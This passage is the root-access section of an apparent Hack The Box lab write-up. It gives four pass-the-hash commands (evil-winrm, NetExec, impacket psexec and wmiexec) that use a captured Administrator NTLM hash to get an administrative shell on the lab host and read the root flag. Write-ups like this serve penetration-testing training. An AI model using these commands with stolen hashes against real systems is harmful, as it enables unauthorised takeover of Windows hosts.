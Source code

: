 # Root

Getting yourself a root shell at this point should be easy. You can use any of this 4 methods.

```bash
# EvilWinRM
evil-winrm -i 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6

# NetExec
nxc smb 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6 -d htb.local -x "more C:\Users\Administrator\Desktop\root.txt"

# Psexec
impacket-psexec -dc-ip htb.local -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 Administrator@10.10.10.161

# Wmiexec
impacket-wmiexec -dc-ip htb.local -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 Administrator@10.10.10.161
```

*EvilWinRM*

![image](https://gist.github.com/assets/58165365/cea9086d-fb88-4b46-ac71-3f798bbd3d44)

*NetExec*

![image](https://gist.github.com/assets/58165365/00801be4-499c-4d9c-9e37-280c41eab1fb)

*Psexec*

![image](https://gist.github.com/assets/58165365/8f2ef73a-af6e-4a54-b9ed-bd542e914f6a)

*Wmiexec*

![image](https://gist.github.com/assets/58165365/a891c61d-9d30-4503-8736-a272dde4c121)